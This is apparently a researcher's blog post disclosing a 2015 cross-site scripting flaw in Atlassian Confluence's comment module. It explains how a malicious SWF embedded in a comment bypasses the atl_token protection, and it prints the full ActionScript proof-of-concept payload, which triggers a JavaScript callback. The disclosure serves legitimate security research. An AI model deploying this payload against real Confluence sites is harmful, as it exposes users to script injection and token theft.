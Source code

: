 ```yaml
---
layout: post
title: XSS on confluence comment module
---
```

On `02/Jul/2015 3:27 AM` i found a XSS flaw on confluence,https://jira.atlassian.com/browse/CONF-38127

In confluence comment module user can upload and embed swf file in their comment, confluence is using a `atl_token` parameter on GET HTTP request, if the attacker sends the link of .swf file( the value of src on embed tag) to his victim the malicious .SWF won't execute on the victim's browser . Every user has  `atl_token`  This is a CSRF protection and XSS protection too. 
We can bypass this protection by using `this.loaderInfo.parameters` in malicious .swf, `this.loaderInfo.parameters.parameter_name` extracts the value of your target parameter, in this case it is `atl_token`, Attacker must also insert a `<a>` tag in malicous swf file so if the victim clicks the link in our embed swf file the .swf file will be run in the victim's browser.

## Payload

{% highlight text %}
package
{
import flash.display.Sprite;
import flash.text.TextFormat;
import flash.text.TextField;
import flash.external.ExternalInterface;

public class Main extends Sprite
{

public function Main()
{
super();
var myFormat:TextFormat = new TextFormat();
myFormat.size = 200;
var xcode:String = this.loaderInfo.parameters.atl_token;
var myText:TextField = new TextField();
myText.width = 1000;
myText.height = 1000;
myText.htmlText = "<font size=\'300px\'> <a target=\'_blank\' href=\'https://pwnie.ninja/confluence/download/attachments/9469955/NewProjectx.swf?atl_token=" + xcode + "&callback=alert\'>CliCK ME</a> </font>";
addChild(myText);
ExternalInterface.call(this.loaderInfo.parameters.callback,"xss");
}
}
}
{% endhighlight %}


## References:
* https://jira.atlassian.com/browse/CONF-38127
* http://stackoverflow.com/questions/6057211/loaderinfo-parameters-in-as3
